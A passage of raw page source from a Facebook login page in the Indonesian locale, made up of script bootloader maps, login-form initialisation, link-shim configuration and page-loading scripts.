\/y0\/l\/id_ID\/hcuYuheYzwq.js?_nc_x=Ij3Wp8lg5Kz"},"lwT36Hm":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3iOuT4\/yY\/l\/id_ID\/XSV_LezI_iI.js?_nc_x=Ij3Wp8lg5Kz"},"ltfAbow":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/y6\/r\/kK8UjoBDCvv.js?_nc_x=Ij3Wp8lg5Kz"},"Hdg+cXJ":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yE\/r\/KqVnbuezAjj.js?_nc_x=Ij3Wp8lg5Kz"},"efxK1Yh":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3iEWy4\/yq\/l\/id_ID\/VJatkMMrZQh.js?_nc_x=Ij3Wp8lg5Kz"},"cmBeA5r":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3i7734\/yc\/l\/id_ID\/z-anKjX9LZt.js?_nc_x=Ij3Wp8lg5Kz"},"LbxIYiS":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3iTin4\/yV\/l\/id_ID\/EuxNb9Os5TT.js?_nc_x=Ij3Wp8lg5Kz"},"EdRX26A":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3iG_Y4\/yy\/l\/id_ID\/GdeyYBwKccF.js?_nc_x=Ij3Wp8lg5Kz"},"VDuWKI5":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yt\/r\/ldf3zBap2iz.js?_nc_x=Ij3Wp8lg5Kz"},"pnXaWNm":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3irtj4\/y-\/l\/id_ID\/Y-UP8lr0Xr2.js?_nc_x=Ij3Wp8lg5Kz"},"wJPN6Z9":{"type":"css","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yD\/l\/0,cross\/3axSf9jN9vw.css?_nc_x=Ij3Wp8lg5Kz"},"vN5ikJA":{"type":"css","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yI\/l\/0,cross\/WMzAYIfrShX.css?_nc_x=Ij3Wp8lg5Kz"},"EFiGvO9":{"type":"css","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yY\/l\/0,cross\/YbtXOFEgo6R.css?_nc_x=Ij3Wp8lg5Kz"},"KdyXmk+":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3i7734\/yn\/l\/id_ID\/h2bZjQiBj7D.js?_nc_x=Ij3Wp8lg5Kz"},"jIVGutb":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yc\/r\/HYN7TbjKybR.js?_nc_x=Ij3Wp8lg5Kz"},"7MgVftw":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yk\/r\/8DC5UqJ5gXF.js?_nc_x=Ij3Wp8lg5Kz"},"KtALNJz":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3iHLO4\/yW\/l\/id_ID\/HmujGO-ddlQ.js?_nc_x=Ij3Wp8lg5Kz"},"5PWEF9E":{"type":"css","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/y3\/l\/0,cross\/jExrpkTwHJe.css?_nc_x=Ij3Wp8lg5Kz"},"dZZuk4+":{"type":"css","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yP\/l\/0,cross\/xYIfaYH0rzD.css?_nc_x=Ij3Wp8lg5Kz"},"BJljJRV":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/ye\/r\/6TKVq8fOdQA.js?_nc_x=Ij3Wp8lg5Kz"},"zmc2din":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3i03c4\/yA\/l\/id_ID\/sL8ys6EHzT9.js?_nc_x=Ij3Wp8lg5Kz"},"KTJXyzv":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yG\/r\/Mdl4See5q5E.js?_nc_x=Ij3Wp8lg5Kz"},"xsFg75a":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yt\/r\/mnLc1TS2Wp-.js?_nc_x=Ij3Wp8lg5Kz"},"rCasuzG":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yA\/r\/OzWmCcYw0wO.js?_nc_x=Ij3Wp8lg5Kz"},"ak9OmxP":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3iRlg4\/y7\/l\/id_ID\/0W22b1CEG1F.js?_nc_x=Ij3Wp8lg5Kz"},"YLZEJAB":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3iTfb4\/yH\/l\/id_ID\/1Ob5m1l8LUr.js?_nc_x=Ij3Wp8lg5Kz"},"SWx3yNv":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/y7\/r\/g__eV5OXSXl.js?_nc_x=Ij3Wp8lg5Kz"},"oBDkbWt":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3iUdS4\/yE\/l\/id_ID\/g2p8rrhkS3n.js?_nc_x=Ij3Wp8lg5Kz"},"x22Oby4":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yZ\/r\/tVshp1OIV9l.js?_nc_x=Ij3Wp8lg5Kz"},"8ELCBwH":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/ye\/r\/VRzSVH5iU-V.js?_nc_x=Ij3Wp8lg5Kz"},"14+beLW":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yA\/r\/kYiRWnhPEqi.js?_nc_x=Ij3Wp8lg5Kz"},"17Grp2h":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/y-\/r\/HhbMrxvaW_H.js?_nc_x=Ij3Wp8lg5Kz"},"QyoftxH":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yL\/r\/j-_AFWnS2kv.js?_nc_x=Ij3Wp8lg5Kz"},"H\/5lfuF":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yF\/r\/iqrvM8jAXX7.js?_nc_x=Ij3Wp8lg5Kz"},"QIamfde":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yA\/r\/Y37sQzk-yb8.js?_nc_x=Ij3Wp8lg5Kz"},"xxwwpkZ":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3iyd84\/y-\/l\/id_ID\/RBw3jdmps8s.js?_nc_x=Ij3Wp8lg5Kz"},"NorC+FR":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yJ\/r\/Ouzwpd0QIJm.js?_nc_x=Ij3Wp8lg5Kz"},"I+GHswV":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yS\/r\/ui2DkP-wt_7.js?_nc_x=Ij3Wp8lg5Kz"},"zPYlTyl":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yO\/r\/_tJ17sGyxOX.js?_nc_x=Ij3Wp8lg5Kz"},"BFolX4R":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yj\/r\/wwPr_f3niE-.js?_nc_x=Ij3Wp8lg5Kz"},"P\/mr5VE":{"type":"css","src":"data:text\/css; charset=utf-8,\u002523bootloader_P_mr5VE{height:42px;}.bootloader_P_mr5VE{display:block!important;}","nc":1,"d":1}},"compMap":{"CometNewsRegulationDialog.react":{"r":["R5w1rCJ","V7lrDtL","oQBvcPb","Wsv7q+J","ceiVmN\/","tCj3+sV","gzVgYVx","BUKjPU0","LVchrHd","juI0lGk","IYvn1RJ","WDAQQ0E","gqsxqq\/","5JODOIC","EqvlZse","kvx582Y","BCtJxgr","cGoHYnQ","nxkWSLM","qgEMvPA","d37yUGn","UmHNvtz","w6++B1W","qk\/p3u5"],"rdfds":{"m":["FDSTooltipDeferredImpl.react"],"r":["vhRPNj4","ONXdU\/u","dxY3Vad","7EFD4kC"]},"rds":{"m":["FbtLogging","CometSuspenseFalcoEvent","IntlQtEventFalcoEvent"],"r":["qUOfXdB"]},"be":1},"CometTooltip_DEPRECATED.react":{"r":["R5w1rCJ","Wsv7q+J","ceiVmN\/","BUKjPU0","juI0lGk","WDAQQ0E","qgEMvPA","5JODOIC","kvx582Y","BCtJxgr","cGoHYnQ","nxkWSLM","qk\/p3u5","IYvn1RJ","UmHNvtz"],"rdfds":{"m":["CometTooltipDeferredImpl.react"],"r":["V7lrDtL","vhRPNj4","ONXdU\/u","LVchrHd","gqsxqq\/","dxY3Vad","7EFD4kC","w6++B1W"]},"rds":{"m":["CometSuspenseFalcoEvent","FbtLogging","IntlQtEventFalcoEvent"],"r":["qUOfXdB"]},"be":1},"WebSpeedInteractionsTypedLogger":{"r":["9NiATAn","IYvn1RJ","kvx582Y","w6++B1W"],"be":1},"AsyncRequest":{"r":["qUOfXdB","IYvn1RJ","UmHNvtz"],"rds":{"m":["FbtLogging","IntlQtEventFalcoEvent"]},"be":1},"DOM":{"r":["IYvn1RJ","UmHNvtz"],"be":1},"Form":{"r":["IYvn1RJ","3HNSMZt","UmHNvtz"],"be":1},"FormSubmit":{"r":["qUOfXdB","IYvn1RJ","2MYQsw8","3HNSMZt","UmHNvtz"],"rds":{"m":["FbtLogging","IntlQtEventFalcoEvent"]},"be":1},"Input":{"r":["3HNSMZt"],"be":1},"Toggler":{"r":["e8KbigC","d37yUGn","UmHNvtz","LVchrHd","IYvn1RJ","kvx582Y","sDwjFDW","bB8N6Cz"],"be":1},"Tooltip":{"r":["R5w1rCJ","4ICgmNm","e8KbigC","d37yUGn","Wsv7q+J","qUOfXdB","UmHNvtz","LVchrHd","juI0lGk","IYvn1RJ","\/AN8Bt5","oijv90q","kvx582Y","CGkH4FY","673pZTE","bB8N6Cz","FcBwX2d","Ufq6YWX","3HNSMZt"],"rds":{"m":["FbtLogging","IntlQtEventFalcoEvent","PageTransitions","Animation"]},"be":1},"URI":{"r":[],"be":1},"trackReferrer":{"r":[],"be":1},"PhotoTagApproval":{"r":["fGapsZt","IYvn1RJ","fWjWwb8","UmHNvtz"],"be":1},"PhotoSnowlift":{"r":["FKLJXXq","R5w1rCJ","4FGmyQf","piP+hXa","sphUlKv","pw1bmB0","3TFtcs5","4ICgmNm","e8KbigC","rk\/b7Sj","qjPXJPO","n6qeAf9","d37yUGn","Wsv7q+J","e5lwynb","LOjtSKJ","ceiVmN\/","kvFyX\/T","BoDMvAH","qUOfXdB","986tFSR","Ssw8COj","HgoCFFB","iGtOaF1","A+GMio9","BUKjPU0","UmHNvtz","\/WPvfgg","eXsFeEA","LVchrHd","MOcemQF","juI0lGk","IYvn1RJ","WDAQQ0E","NqyS7uP","YaUoM+5","VngWBbe","qgEMvPA","kCegEy\/","lbIwrZN","\/AN8Bt5","j3r9uuX","k748k+V","Kn+Opm7","j5IOZMI","oijv90q","IRFvspN","kvx582Y","XAnt5Pc","3HNSMZt","lwT36Hm","dxY3Vad","ltfAbow","Hdg+cXJ","CGkH4FY","efxK1Yh","cmBeA5r","LbxIYiS","673pZTE","EdRX26A","fWjWwb8","sDwjFDW","bB8N6Cz","FcBwX2d","VDuWKI5","Ufq6YWX","w6++B1W","qk\/p3u5"],"rds":{"m":["Animation","FbtLogging","IntlQtEventFalcoEvent","PageTransitions"]},"be":1},"PhotoTagger":{"r":["pnXaWNm","R5w1rCJ","4ICgmNm","e8KbigC","d37yUGn","Wsv7q+J","fGapsZt","wJPN6Z9","qUOfXdB","986tFSR","HgoCFFB","UmHNvtz","LVchrHd","juI0lGk","IYvn1RJ","vN5ikJA","\/AN8Bt5","EFiGvO9","j5IOZMI","kvx582Y","Hdg+cXJ","CGkH4FY","cmBeA5r","673pZTE","KdyXmk+","fWjWwb8","jIVGutb","bB8N6Cz","FcBwX2d","Ufq6YWX","3HNSMZt","w6++B1W","qk\/p3u5"],"rds":{"m":["FbtLogging","IntlQtEventFalcoEvent","PageTransitions","Animation"]},"be":1},"PhotoTags":{"r":["d37yUGn","fGapsZt","IYvn1RJ","fWjWwb8","UmHNvtz"],"be":1},"TagTokenizer":{"r":["7MgVftw","KtALNJz","5PWEF9E","d37yUGn","fGapsZt","dZZuk4+","HgoCFFB","UmHNvtz","BJljJRV","IYvn1RJ","kvx582Y","zmc2din","3HNSMZt"],"rds":{"m":["FbtLogging","IntlQtEventFalcoEvent"],"r":["qUOfXdB"]},"be":1},"AsyncDialog":{"r":["R5w1rCJ","sphUlKv","e8KbigC","n6qeAf9","d37yUGn","Wsv7q+J","qUOfXdB","986tFSR","UmHNvtz","LVchrHd","juI0lGk","IYvn1RJ","kvx582Y","Hdg+cXJ","cmBeA5r","sDwjFDW","bB8N6Cz","FcBwX2d","qk\/p3u5"],"rds":{"m":["FbtLogging","IntlQtEventFalcoEvent"]},"be":1},"Hovercard":{"r":["pnXaWNm","R5w1rCJ","4ICgmNm","e8KbigC","d37yUGn","Wsv7q+J","wJPN6Z9","qUOfXdB","986tFSR","HgoCFFB","UmHNvtz","LVchrHd","juI0lGk","IYvn1RJ","vN5ikJA","\/AN8Bt5","j5IOZMI","kvx582Y","Hdg+cXJ","CGkH4FY","673pZTE","KdyXmk+","bB8N6Cz","FcBwX2d","Ufq6YWX","3HNSMZt","w6++B1W"],"rds":{"m":["FbtLogging","IntlQtEventFalcoEvent","PageTransitions","Animation"]},"be":1},"XSalesPromoWWWDetailsDialogAsyncController":{"r":["qUOfXdB","KTJXyzv"],"be":1},"XOfferController":{"r":["qUOfXdB","xsFg75a"],"be":1},"PerfXSharedFields":{"r":["ONXdU\/u","kvx582Y"],"be":1},"KeyEventTypedLogger":{"r":["rCasuzG","IYvn1RJ","kvx582Y","w6++B1W"],"be":1},"Dialog":{"r":["4ICgmNm","e8KbigC","d37yUGn","qUOfXdB","UmHNvtz","LVchrHd","juI0lGk","IYvn1RJ","kCegEy\/","kvx582Y","3HNSMZt","Hdg+cXJ","EdRX26A","bB8N6Cz","R5w1rCJ","Wsv7q+J","Ufq6YWX"],"rds":{"m":["FbtLogging","IntlQtEventFalcoEvent","Animation","PageTransitions"]},"be":1},"ExceptionDialog":{"r":["R5w1rCJ","ak9OmxP","sphUlKv","V7lrDtL","e8KbigC","rk\/b7Sj","n6qeAf9","d37yUGn","Wsv7q+J","986tFSR","Ssw8COj","UmHNvtz","LVchrHd","juI0lGk","IYvn1RJ","YLZEJAB","kvx582Y","Hdg+cXJ","cmBeA5r","sDwjFDW","bB8N6Cz","FcBwX2d","qUOfXdB"],"rds":{"m":["FbtLogging","IntlQtEventFalcoEvent"]},"be":1},"QuickSandSolver":{"r":["SWx3yNv","ceiVmN\/","qUOfXdB","IYvn1RJ","oBDkbWt","3HNSMZt","x22Oby4","8ELCBwH","UmHNvtz"],"rds":{"m":["FbtLogging","IntlQtEventFalcoEvent"]},"be":1},"ConfirmationDialog":{"r":["d37yUGn","14+beLW","IYvn1RJ","3HNSMZt","UmHNvtz"],"be":1},"MWADeveloperReauthBarrier":{"r":["17Grp2h","QyoftxH","H\/5lfuF","IYvn1RJ","QIamfde"],"be":1},"ReactDOM":{"r":["Wsv7q+J","IYvn1RJ","R5w1rCJ","qk\/p3u5","juI0lGk","UmHNvtz"],"be":1}}})});</script>
<script>requireLazy(["InitialJSLoader"], function(InitialJSLoader) {InitialJSLoader.loadOnDOMContentReady(["qUOfXdB","Hdg+cXJ","R5w1rCJ","V7lrDtL","d37yUGn","Wsv7q+J","vhRPNj4","xxwwpkZ","tCj3+sV","BUKjPU0","ONXdU\/u","LVchrHd","juI0lGk","WDAQQ0E","qgEMvPA","5JODOIC","kvx582Y","dxY3Vad","cGoHYnQ","\/AN8Bt5","IYvn1RJ","NorC+FR","I+GHswV","3HNSMZt","zPYlTyl","BFolX4R","7EFD4kC","w6++B1W","qk\/p3u5","P\/mr5VE"]);});</script>
<script>requireLazy(["TimeSliceImpl","ServerJS"],function(TimeSlice,ServerJS){var s=(new ServerJS());s.handle({"define":[["cr:7736",["FBLynxLogging"],{"__rc":["FBLynxLogging",null]},-1],["LinkshimHandlerConfig",[],{"supports_meta_referrer":true,"default_meta_referrer_policy":"origin-when-crossorigin","switched_meta_referrer_policy":"origin","non_linkshim_lnfb_mode":null,"link_react_default_hash":"AT3RWyp1ddszJdLOQl6QSbqcp1biKVX9z4xoqd0NQ_EiGuj-t6eBf-MA688KlmALdszMM8dYhPgwJiXq4bGH5LQiQhjz4kwzt_0lRXI1r388COfkD-sU0ah7nbHDw6DJU6sSiJVyZE9xpeDQ9fCEig","untrusted_link_default_hash":"AT3Mfx4udizxo2pIHatdk60tKPDBsLIvHlpYYv9Jcq_LYcrCboseWW4ScbjaQxNrwdWKacHQm8lMrLYBekWk4b39uqxfD50WJP5wQn-4ganXQj5aVZVsBq0V1jQrhUUyodjNg1PUa8p1W8gb2SOSJQ","linkshim_host":"l.facebook.com","linkshim_path":"\/l.php","linkshim_enc_param":"h","linkshim_url_param":"u","use_rel_no_opener":true,"use_rel_no_referrer":true,"always_use_https":true,"onion_always_shim":true,"middle_click_requires_event":true,"www_safe_js_mode":"asynclazy","m_safe_js_mode":"MLynx_asynclazy","ghl_param_link_shim":false,"click_ids":[],"is_linkshim_supported":true,"current_domain":"facebook.com","blocklisted_domains":["ad.doubleclick.net","ads-encryption-url-example.com","bs.serving-sys.com","ad.atdmt.com","adform.net","ad13.adfarm1.adition.com","ilovemyfreedoms.com","secure.adnxs.com"],"is_mobile_device":false},27]],"elements":[["__elem_a588f507_0_1_D+","u_0_1_t7",1],["__elem_a588f507_0_0_vM","globalContainer",1],["__elem_a588f507_0_2_wy","content",1],["__elem_835c633a_0_0_ZJ","u_0_2_01",1],["__elem_9f5fac15_0_0_ez","passContainer",1],["__elem_558608f3_0_0_M4","pass",1],["__elem_a588f507_0_3_Ke","u_0_3_Sj",1],["__elem_a588f507_0_4_zv","u_0_4_Uk",1],["__elem_45d73b5d_0_0_iZ","u_0_5_Pz",1]],"require":[["ServiceWorkerLoginAndLogout","login",[],[]],["DOMScanner","scanLoginPage",[],[]],["WebPixelRatioDetector","startDetecting",[],[false]],["ScriptPath","set",[],["XIndexReduxController","a1f3c513",{"imp_id":"0aHDFwfATekXQGQfi","ef_page":null,"uri":"https:\/\/web.facebook.com\/?locale=id_ID"}]],["HostnameRewriter","registerInternetDotOrgFilters",[],["facebook.com",true]],["UITinyViewportAction","init",[],[]],["ResetScrollOnUnload","init",["__elem_a588f507_0_0_vM"],[{"__m":"__elem_a588f507_0_0_vM"}]],["KeyboardActivityLogger","init",[],[]],["FocusRing","init",[],[]],["ErrorMessageConsole","listenForUncaughtErrors",[],[]],["HardwareCSS","init",[],[]],["LoginFormController","init",["__elem_835c633a_0_0_ZJ","__elem_45d73b5d_0_0_iZ"],[{"__m":"__elem_835c633a_0_0_ZJ"},{"__m":"__elem_45d73b5d_0_0_iZ"},null,true,{"pubKey":{"publicKey":"d28c98845c6c481b8e7889792de87c9dbf35b2f302c2002d1ca67758a3aaa60e","keyId":101}},false]],["BrowserPrefillLogging","initContactpointFieldLogging",[],[{"contactpointFieldID":"email","serverPrefill":""}]],["BrowserPrefillLogging","initPasswordFieldLogging",[],[{"passwordFieldID":"pass"}]],["LoginFormToggle","initToggle",["__elem_a588f507_0_3_Ke","__elem_a588f507_0_4_zv","__elem_558608f3_0_0_M4","__elem_9f5fac15_0_0_ez"],[{"__m":"__elem_a588f507_0_3_Ke"},{"__m":"__elem_a588f507_0_4_zv"},{"__m":"__elem_558608f3_0_0_M4"},{"__m":"__elem_9f5fac15_0_0_ez"}]],["FocusListener"],["FlipDirectionOnKeypress"],["IntlUtils"],["FBLynx","setupDelegation",[],[]],["CometSuspenseFalcoEvent"],["CometExceptionDialog.react"],["FDSTooltipDeferredImpl.react"],["RequireDeferredReference","unblock",[],[["FbtLogging","CometSuspenseFalcoEvent","IntlQtEventFalcoEvent","CometExceptionDialog.react","FDSTooltipDeferredImpl.react"],"sd"]],["RequireDeferredReference","unblock",[],[["FbtLogging","CometSuspenseFalcoEvent","IntlQtEventFalcoEvent","CometExceptionDialog.react","FDSTooltipDeferredImpl.react"],"css"]],["TimeSliceImpl"],["HasteSupportData"],["ServerJS"],["Run"],["InitialJSLoader"]],"contexts":[[{"__m":"__elem_a588f507_0_1_D+"},true],[{"__m":"__elem_a588f507_0_2_wy"},true]]});requireLazy(["Run"],function(Run){Run.onAfterLoad(function(){s.cleanup(TimeSlice)})});});</script>
<script>now_inl=(function(){var p=window.performance;return p&&p.now&&p.timing&&p.timing.navigationStart?function(){return p.now()+p.timing.navigationStart}:function(){return new Date().getTime()};})();window.__bigPipeFR=now_inl();</script>
<link rel="preload" href="https://z-p3-static.xx.fbcdn.net/rsrc.php/v3/yJ/r/WHQeCgcvhLk.js?_nc_x=Ij3Wp8lg5Kz" as="script" crossorigin="anonymous" nonce="DPCV4jDj" />
<link rel="preload" href="https://z-p3-static.xx.fbcdn.net/rsrc.php/v3/yt/l/0,cross/pUUbS-a60Hf.css?_nc_x=Ij3Wp8lg5Kz" as="style" crossorigin="anonymous" />
<link rel="preload" href="https://z-p3-static.xx.fbcdn.net/rsrc.php/v3/yF/l/0,cross/vW6v-i2pStD.css?_nc_x=Ij3Wp8lg5Kz" as="style" crossorigin="anonymous" />
<link rel="preload" href="https://z-p3-static.xx.fbcdn.net/rsrc.php/v3/yW/l/0,cross/bhHErlshOuZ.css?_nc_x=Ij3Wp8lg5Kz" as="style" crossorigin="anonymous" />
<link rel="preload" href="https://z-p3-static.xx.fbcdn.net/rsrc.php/v3/yo/l/0,cross/oI7bhS_irZs.css?_nc_x=Ij3Wp8lg5Kz" as="style" crossorigin="anonymous" />
<link rel="preload" href="https://z-p3-static.xx.fbcdn.net/rsrc.php/v3/yr/l/0,cross/nuNKxsHxWy3.css?_nc_x=Ij3Wp8lg5Kz" as="style" crossorigin="anonymous" />
<link rel="preload" href="https://z-p3-static.xx.fbcdn.net/rsrc.php/v3/yJ/r/Ouzwpd0QIJm.js?_nc_x=Ij3Wp8lg5Kz" as="script" crossorigin="anonymous" nonce="DPCV4jDj" />
<link rel="preload" href="https://z-p3-static.xx.fbcdn.net/rsrc.php/v3/yQ/l/0,cross/OZRnJgs6Suh.css?_nc_x=Ij3Wp8lg5Kz" as="style" crossorigin="anonymous" />
<link rel="preload" href="https://z-p3-static.xx.fbcdn.net/rsrc.php/v3iQqy4/yX/l/id_ID/966UGNKdmmG.js?_nc_x=Ij3Wp8lg5Kz" as="script" crossorigin="anonymous" nonce="DPCV4jDj" />
<script>window.__bigPipeCtor=now_inl();requireLazy(["BigPipe"],function(BigPipe){define("__bigPipe",[],window.bigPipe=new BigPipe({"forceFinish":true,"config":{"flush_pagelets_asap":true,"dispatch_pagelet_replayable_actions":false}}));});</script>
<script nonce="DPCV4jDj">(function(){var n=now_inl();requireLazy(["__bigPipe"],function(bigPipe){bigPipe.beforePageletArrive("first_response",n);})})();</script>
<script nonce="DPCV4jDj">requireLazy(["__bigPipe"],(function(bigPipe){bigPipe.onPageletArrive({displayResources:["IYvn1RJ","gqsxqq/","BCtJxgr","GLWoijf","UmHNvtz","bB8N6Cz","NorC+FR","rk/b7Sj","qUOfXdB","P/mr5VE"],id:"first_response",phase:0,last_in_phase:true,tti_phase:0,all_phases:[63],hsrp:{hblp:{consistency:{rev:1012612339}}},allResources:["qUOfXdB","Hdg+cXJ","R5w1rCJ","V7lrDtL","d37yUGn","Wsv7q+J","vhRPNj4","xxwwpkZ","tCj3+sV","BUKjPU0","ONXdU/u","LVchrHd","juI0lGk","WDAQQ0E","qgEMvPA","5JODOIC","kvx582Y","dxY3Vad","cGoHYnQ","/AN8Bt5","IYvn1RJ","gqsxqq/","BCtJxgr","GLWoijf","UmHNvtz","bB8N6Cz","NorC+FR","rk/b7Sj","I+GHswV","3HNSMZt","zPYlTyl","BFolX4R","P/mr5VE","7EFD4kC","w6++B1W","qk/p3u5"]});}));</script>
<script>requireLazy(["__bigPipe"],function(bigPipe){bigPipe.setPageID("7355536335707587444")});</script><script nonce="DPCV4jDj">(function(){var n=now_inl();requireLazy(["__bigPipe"],function(bigPipe){bigPipe.beforePageletArrive("last_response",n);})})();</script>
<script nonce="DPCV4jDj">requireLazy(["__bigPipe"],(function(bigPipe){bigPipe.onPageletArrive({displayResources:["w6++B1W"],id:"last_response",phase:63,last_in_phase:true,the_end:true,jsmods:{define:[["cr:6016",["NavigationMetricsWWW"],{__rc:["NavigationMetricsWWW",null]},-1],["cr:70",["FBInteractionTracingDependencies"],{__rc:["FBInteractionTracingDependencies",null]},-1],["cr:619",["setTimeoutCometLoggingPriWWW"],{__rc:["setTimeoutCometLoggingPriWWW",null]},-1],["cr:686",[],{__rc:[null,null]},-1],["cr:734",[],{__rc:[null,null]},-1],["cr:2099",[],{__rc:[null,null]},-1],["cr:2448",["useHeroBootloadedComponent"],{__rc:["useHeroBootloadedComponent",null]},-1],["cr:2874",[],{__rc:[null,null]},-1],["cr:4874",[],{__rc:[null,null]},-1],["cr:7063",["ErrorBoundary.react"],{__rc:["ErrorBoundary.react",null]},-1],["cr:7383",["BanzaiWWW"],{__rc:["BanzaiWWW",null]},-1],["cr:7388",["setIntervalWWW"],{__rc:["setIntervalWWW",null]},-1],["cr:7422",["ImageDownloadTrackerWWW"],{__rc:["ImageDownloadTrackerWWW",null]},-1],["cr:7451",[],{__rc:[null,null]},-1],["cr:8907",["HeroTracingCoreConfigWWW"],{__rc:["HeroTracingCoreConfigWWW",null]},-1],["cr:8908",["HeroTracingCoreDependenciesWWW"],{__rc:["HeroTracingCoreDependenciesWWW",null]},-1],["cr:11054",[],{__rc:[null,null]},-1],["cr:955714",[],{__rc:[null,null]},-1],["cr:1064332",[],{__rc:[null,null]},-1],["cr:1106516",[],{__rc:[null,null]},-1],["cr:1108857",[],{__rc:[null,null]},-1],["cr:1294158",["React.classic"],{__rc:["React.classic",null]},-1],["cr:1294159",["ReactDOM.classic"],{__rc:["ReactDOM.classic",null]},-1],["cr:1522191",["CometLinkTrackingUtils.facebook"],{__rc:["CometLinkTrackingUtils.facebook",null]},-1],["cr:1984081",[],{__rc:[null,null]},-1],["cr:2010754",[],{__rc:[null,null]},-1],["cr:5662",["Event"],{__rc:["Event",null]},-1],["cr:1458113",[],{__rc:[null,null]},-1],["cr:3376",[],{__rc:[null,null]},-1],["cr:1083116",["XAsyncRequest"],{__rc:["XAsyncRequest",null]},-1],["cr:1083117",[],{__rc:[null,null]},-1],["IntlCurrentLocale",[],{code:"id_ID"},5954],["JSSelfProfilerTrackedInteractions",[],{interactions:[{action:"*",tracePolicy:"*"}]},6918],["NewsRegulationErrorMessageData",[],{availableErrorCodes:[2216007,2216006],errorCodeToRegType:{"2216007":"c18","2216006":"au00"},learnMoreLinks:{c18:{regulated_user:"https://web.facebook.com/help/787040499275067",user:"https://web.facebook.com/help/2579891418969617"},au00:{regulated_user:"https://web.facebook.com/help/787040499275067",user:"https://web.facebook.com/help/2579891418969617"}},appealLinks:{c18:"https://web.facebook.com/help/contact/419859403337390"}},7133],["FBDomainsSVConfig",[],{domains:{__map:[["www.facebook.com",1],["tfbnw.net",1],["m.beta.facebook.com",1],["touch.beta.facebook.com",1],["www.dev.facebook.com",1],["fb.me",1],["s.fb.com",1],["m.fbjs.facebook.com",1],["facebook.com.es",1],["www.fbjs.facebook.com",1],["m.facebook.com",1],["facebook.fr",1],["fbsbx.com",1],["embed.fbsbx.com",1],["attachment.fbsbx.com",1],["lookaside.fbsbx.com",1],["web.facebook.com",1],["fb.com",1],["messenger.com",1],["secure.facebook.com",1],["secure.my-od.facebook.com",1],["www.my-od.facebook.com",1]]}},3828],["ClickIDDomainBlacklistSVConfig",[],{domains:["craigslist","tfbnw.net","flashtalking.com","canadiantire.ca","o2.co.uk","archive.org","reddit.com","redd.it","gmail.com","cvk.gov.ua","electoralsearch.in","yahoo.com","cve.mitre.org","usenix.org","ky.gov","voteohio.gov","vote.pa.gov","oversightboard.com","wi.gov","pbs.twimg.com","media.discordapp.net","vastadeal.com","theaustralian.com.au","alloygator.com","elsmannimmobilien.de","news.com.au","dennisbonnen.com","stoett.com","investorhour.com","perspectivasur.com","bonnegueule.fr","firstent.org","twitpic.com","kollosche.com.au","nau.edu","arcourts.gov","lomberg.de","network4.hu","balloonrace.com","awstrack.me","ic3.gov","sos.wyo.gov","cnpq.br","0.discoverapp.com","apple.com","apple.co","applecard.apple","services.apple","appletvplus.com","applepay.apple","beatsbydre.com","dinn.com.mx","soriana.com","facebook.sso.datasite.com","fycextras.com","rik.parlament.gov.rs","dge.sn"]},3829],["CometCustomKeyCommands",[],{customCommands:{},areSingleKeysDisabled:null,modifiedKeyboardShortcutsPreference:4},4521],["USIDMetadata",[],{browser_id:"?",tab_id:"",page_id:"Psbmu6r1pgfpod",transition_id:0,version:6},5888],["TimeSliceInteractionSV",[],{on_demand_reference_counting:true,on_demand_profiling_counters:true,default_rate:1000,lite_default